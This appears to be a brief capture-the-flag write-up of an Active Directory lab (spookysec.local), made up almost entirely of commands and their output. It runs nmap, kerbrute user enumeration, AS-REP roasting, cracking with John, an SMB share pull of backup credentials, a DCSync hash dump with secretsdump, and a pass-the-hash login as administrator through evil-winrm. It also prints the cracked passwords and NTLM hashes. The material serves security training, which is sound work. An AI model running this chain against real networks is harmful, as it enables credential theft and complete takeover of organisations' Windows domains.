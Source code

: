 
# nmap -sVC 10.10.96.84 -T4

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-16 17:47 EET
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64370 > 10.10.96.84:53 S ttl=38 id=49382 iplen=44  seq=1945375481 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64371 > 10.10.96.84:53 S ttl=47 id=21233 iplen=44  seq=1945441016 win=1024 <mss 1460>
sendto in send_ip_packet_sd: sendto(5, packet, 44, 0, 10.10.96.84, 16) => Operation not permitted
Offending packet: TCP 10.2.92.176:64372 > 10.10.96.84:53 S ttl=59 id=42740 iplen=44  seq=1945506555 win=1024 <mss 1460>
Nmap scan report for 10.10.96.84
Host is up (0.37s latency).
Not shown: 987 closed ports
PORT     STATE    SERVICE       VERSION
53/tcp   filtered domain
80/tcp   open     http          Microsoft IIS httpd 10.0
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-02-16 15:48:19Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
3389/tcp open     ms-wbt-server Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.30 seconds
```

# AD Users Enumeration 
  ./kerbrute userenum -d spookysec.local --dc 10.10.246.162 userlist.txt 
 ``` 
james@spookysec.local
svc-admin@spookysec.local
robin@spookysec.local
darkstar@spookysec.local
administrator@spookysec.local
backup@spookysec.local
paradox@spookysec.local 
```

# AS-REP ROASTING 
   python3 GetNPUsers.py spookysec.local/ -userfile users.txt -no-pass -dc-ip 10.10.246.162
 ```  
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set  
[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:9e9d37205ca2b017be8b60ae4decc7d8$4d81d588e53cd91588752a3d06537c32d95b9e71c8ad9000bfb2442ae8fdd36a7448fca372decebd0d6ef2a0020b5eea2d690503018447cbd9422ff59fe0aa62777c8840112179b56a1971f083ca17ef83a29d4815f86c3c5836420de128f7c9d6975bd367c02b2f22ce506b61ce0ebaa2a664b59fa40a7fa1d04db8654d62c3f09c803025e270ef112a2f833b4e2d8bc1fe756d58fa734277b25b77e521e57a7a77dc19d517a692704f5c68a5593f552bacc82202f44fecf34ddf36f97ed54d65432eef3739fad5b9ce14fbf81b306503b0191dd3eda6ed3e7ade34bb37cc1b3ee16b240369df8fb7cb79d367bee2c66b2c
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set  
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set  
```
# John Hash.txt
```  svc-admin:management2005```

# smbclient -L //10.10.83.246 -U 'svc-admin' 
```	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```
# smbclient //10.10.83.246/backup -U 'svc-admin'

# smb: \> get backup_credentials.txt
```YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
backup@spookysec.local:backup2517860
```
#  DCSync
 python3 secretsdump.py -dc-ip 10.10.83.246 spookysec.local/backup:backup2517860@10.10.83.246 -use-vss
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
```

#  Pass The Hash
    evil-winrm -i 10.10.83.246 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

